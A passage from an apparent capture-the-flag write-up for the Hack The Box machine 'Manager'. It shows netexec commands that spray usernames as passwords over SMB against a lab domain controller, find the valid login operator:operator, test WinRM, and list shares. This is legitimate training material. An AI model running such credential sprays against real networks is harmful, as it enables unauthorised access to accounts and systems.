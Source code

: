I can do a quick check to see if any of the usernames I’ve collected use their
username as their password. With `netexec`, I’ll give the same list for `-u`
and `-p`, and the `--no-brute` flag, which means instead of tying each
username with each password, it just tries the first username with the first
password, the second with the second, and so on. I like the `--continue-on-
success` flag to check if there are more then one set of valid creds here:

    
    
    oxdf@hacky$ netexec smb manager.htb -u users -p users --continue-on-success --no-brute
    SMB         10.10.11.236    445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:manager.htb) (signing:True) (SMBv1:False)
    SMB         10.10.11.236    445    DC01             [-] manager.htb\administrator:administrator STATUS_LOGON_FAILURE 
    SMB         10.10.11.236    445    DC01             [-] manager.htb\guest:guest STATUS_LOGON_FAILURE 
    SMB         10.10.11.236    445    DC01             [-] manager.htb\krbtgt:krbtgt STATUS_LOGON_FAILURE 
    SMB         10.10.11.236    445    DC01             [-] manager.htb\dc01$:dc01$ STATUS_LOGON_FAILURE 
    SMB         10.10.11.236    445    DC01             [-] manager.htb\zhong:zhong STATUS_LOGON_FAILURE 
    SMB         10.10.11.236    445    DC01             [-] manager.htb\cheng:cheng STATUS_LOGON_FAILURE 
    SMB         10.10.11.236    445    DC01             [-] manager.htb\ryan:ryan STATUS_LOGON_FAILURE 
    SMB         10.10.11.236    445    DC01             [-] manager.htb\raven:raven STATUS_LOGON_FAILURE 
    SMB         10.10.11.236    445    DC01             [-] manager.htb\jinwoo:jinwoo STATUS_LOGON_FAILURE 
    SMB         10.10.11.236    445    DC01             [-] manager.htb\chinhae:chinhae STATUS_LOGON_FAILURE 
    SMB         10.10.11.236    445    DC01             [+] manager.htb\operator:operator 
    

The operator account uses the password operator! It doesn’t work over WinRM,
so no shell from here:

    
    
    oxdf@hacky$ netexec winrm manager.htb -u operator -p operator
    WINRM       10.10.11.236    5985   DC01             [*] Windows 10 / Server 2019 Build 17763 (name:DC01) (domain:manager.htb)
    WINRM       10.10.11.236    5985   DC01             [-] manager.htb\operator:operator
    

### Enumeration as operator

#### SMB

The shares on Management are the standard DC shares:

    
    
    oxdf@hacky$ netexec smb manager.htb -u operator -p operator --shares
    SMB         10.10.11.236    445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:manager.htb) (signing:True) (SMBv1:False)
    SMB         10.10.11.236    445    DC01             [+] manager.htb\operator:operator 
    SMB         10.10.11.236    445    DC01             [*] Enumerated shares
    SMB         10.10.11.236    445    DC01             Share           Permissions     Remark
    SMB         10.10.11.236    445    DC01             -----           -----------     ------
    SMB         10.10.11.236    445    DC01             ADMIN$                          Remote Admin
    SMB         10.10.11.236    445    DC01             C$                              Default share
    SMB         10.10.11.236    445    DC01             IPC$            READ            Remote IPC
    SMB         10.10.11.236    445    DC01             NETLOGON        READ            Logon server share 
    SMB         10.10.11.236    445    DC01             SYSVOL          READ            Logon server share 
    